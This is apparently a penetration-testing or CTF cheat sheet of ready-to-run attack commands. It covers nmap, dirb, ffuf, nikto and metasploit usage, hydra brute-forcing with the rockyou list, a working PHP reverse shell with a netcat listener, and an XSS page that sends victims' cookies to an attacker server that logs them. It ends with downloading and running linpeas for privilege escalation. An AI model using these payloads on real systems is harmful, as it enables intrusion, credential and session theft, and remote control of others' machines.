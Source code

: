 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 1000 -oN nmap_output.txt example.com
```

## Directory enumeration with `dirb`:
```bash
dirb http://example.com /usr/share/wordlists/dirb/common.txt -o dirb_output.txt
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com -H "Host: FUZZ.example.com" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Web app scan with `nikto`:
```bash
nikto -h example.com -p 80 -o nikto_output.txt
```

## Exploit with `metasploit`:
```bash
msfconsole

show

search <exploit_name>

use exploit/linux/http/exploit_name

set RHOSTS example.com
set RPORT 80

show payloads
set payload <payload_name>

exploit
```

## PHP reverse shell
### Listener:
```bash
nc -lvnp 4444
```
### Reverse shell:
```php
<?php
$ip = 'x.x.x.x'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

## XSS/CSRF attack
### Serve:
```bash
mkdir xss
cd xss
nano index.html
sudo python3 -m http.server 4444
```
### index.html:
```bash
<html>
  <head>
    <title>CTF</title>
    <script>
      // Collect additional information
      var cookies = document.cookie;
      var userAgent = navigator.userAgent;
      var platform = navigator.platform;
      var language = navigator.language || navigator.userLanguage;
      var screenSize = screen.width + 'x' + screen.height;
      
      // Encode the data to ensure it's safely transmitted
      var data = encodeURIComponent(
        'cookies=' + cookies +
        '&userAgent=' + userAgent +
        '&platform=' + platform +
        '&language=' + language +
        '&screenSize=' + screenSize
      );
      
      // Send the data to your server
      var i = new Image();
      i.src = "http://YOUR_SERVER_IP:5555/?" + data;
    </script>
  </head>
  <body>
    <h1>Hi Admin!</h1>
  </body>
</html>
```
### Listen:
```bash
mkdir cookies
cd cookies
nano index.js
node index.js
```
### index.js:
```bash
const http = require('http');
const url = require('url');

http.createServer((req, res) => {
  const queryObject = url.parse(req.url, true).query;
  console.log('Cookies: ', queryObject.cookie);
  res.end('Logged');
}).listen(5555);
```

## Login brute-force with `hydra`
### Syntax 1:
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```
### Syntax 2:
```bash
sudo hydra -v -V -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt example.com http-post-form "/login:username=^USER^&password=^PASS^=:F=Bad"
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc example.com 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Archive
### Compress:
```bash
tar -czvf archive.tar.gz /path/to/directory_or_file
```
### Extract:
```bash
tar -xzvf archive.tar.gz -C /path/to/extract
```

## Privilege escalation with `linpeas`
### Serve:
```bash
mkdir linpeas
cd linpeas
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Download and execute:
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
